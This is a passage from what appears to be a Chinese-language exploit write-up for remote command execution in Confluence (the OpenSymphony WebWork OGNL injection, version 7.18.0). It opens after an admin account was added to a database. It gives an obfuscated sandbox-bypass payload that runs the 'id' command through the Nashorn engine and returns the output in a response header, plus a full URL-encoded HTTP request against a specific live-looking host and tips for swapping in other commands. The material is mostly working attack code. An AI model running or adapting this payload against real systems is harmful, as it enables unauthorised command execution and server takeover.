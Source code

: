 成功登录，数据库中已经成功添加管理员用户。

![image](https://user-images.githubusercontent.com/84888757/172956724-68e41c7e-843f-40c6-9f22-e943e967521c.png)

### 3、命令执行
- 来自p神

网上流传的POC没法打最新版7.18.0，因为增加了沙箱。

通过下面这个POC即可执行命令并获取回显：
```
${Class.forName("com.opensymphony.webwork.ServletActionContext").getMethod("getResponse",null).invoke(null,null).setHeader("X-CMD",Class.forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("nashorn").eval("eval(String.fromCharCode(118,97,114,32,115,61,39,39,59,118,97,114,32,112,112,32,61,32,106,97,118,97,46,108,97,110,103,46,82,117,110,116,105,109,101,46,103,101,116,82,117,110,116,105,109,101,40,41,46,101,120,101,99,40,39,105,100,39,41,46,103,101,116,73,110,112,117,116,83,116,114,101,97,109,40,41,59,119,104,105,108,101,32,40,49,41,32,123,118,97,114,32,98,32,61,32,112,112,46,114,101,97,100,40,41,59,105,102,32,40,98,32,61,61,32,45,49,41,32,123,98,114,101,97,107,59,125,115,61,115,43,83,116,114,105,110,103,46,102,114,111,109,67,104,97,114,67,111,100,101,40,98,41,125,59,115))"))}
```

在burp中用url编码，数据包如下：
```
GET /%24%7BClass.forName(%22com.opensymphony.webwork.ServletActionContext%22).getMethod(%22getResponse%22%2Cnull).invoke(null%2Cnull).setHeader(%22X-CMD%22%2CClass.forName(%22javax.script.ScriptEngineManager%22).newInstance().getEngineByName(%22nashorn%22).eval(%22eval(String.fromCharCode(118%2C97%2C114%2C32%2C115%2C61%2C39%2C39%2C59%2C118%2C97%2C114%2C32%2C112%2C112%2C32%2C61%2C32%2C106%2C97%2C118%2C97%2C46%2C108%2C97%2C110%2C103%2C46%2C82%2C117%2C110%2C116%2C105%2C109%2C101%2C46%2C103%2C101%2C116%2C82%2C117%2C110%2C116%2C105%2C109%2C101%2C40%2C41%2C46%2C101%2C120%2C101%2C99%2C40%2C39%2C105%2C100%2C39%2C41%2C46%2C103%2C101%2C116%2C73%2C110%2C112%2C117%2C116%2C83%2C116%2C114%2C101%2C97%2C109%2C40%2C41%2C59%2C119%2C104%2C105%2C108%2C101%2C32%2C40%2C49%2C41%2C32%2C123%2C118%2C97%2C114%2C32%2C98%2C32%2C61%2C32%2C112%2C112%2C46%2C114%2C101%2C97%2C100%2C40%2C41%2C59%2C105%2C102%2C32%2C40%2C98%2C32%2C61%2C61%2C32%2C45%2C49%2C41%2C32%2C123%2C98%2C114%2C101%2C97%2C107%2C59%2C125%2C115%2C61%2C115%2C43%2C83%2C116%2C114%2C105%2C110%2C103%2C46%2C102%2C114%2C111%2C109%2C67%2C104%2C97%2C114%2C67%2C111%2C100%2C101%2C40%2C98%2C41%2C125%2C59%2C115))%22))%7D/ HTTP/1.1
Host: cf2.infomc.com
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close


```

上面执行了id命令，这个payload怎么改呢？
将
```
String.fromCharCode(118,97,114,32,115,61,39,39,59,118,97,114,32,112,112,32,61,32,106,97,118,97,46,108,97,110,103,46,82,117,110,116,105,109,101,46,103,101,116,82,117,110,116,105,109,101,40,41,46,101,120,101,99,40,39,105,100,39,41,46,103,101,116,73,110,112,117,116,83,116,114,101,97,109,40,41,59,119,104,105,108,101,32,40,49,41,32,123,118,97,114,32,98,32,61,32,112,112,46,114,101,97,100,40,41,59,105,102,32,40,98,32,61,61,32,45,49,41,32,123,98,114,101,97,107,59,125,115,61,115,43,83,116,114,105,110,103,46,102,114,111,109,67,104,97,114,67,111,100,101,40,98,41,125,59,115)
```
放到hackbar里
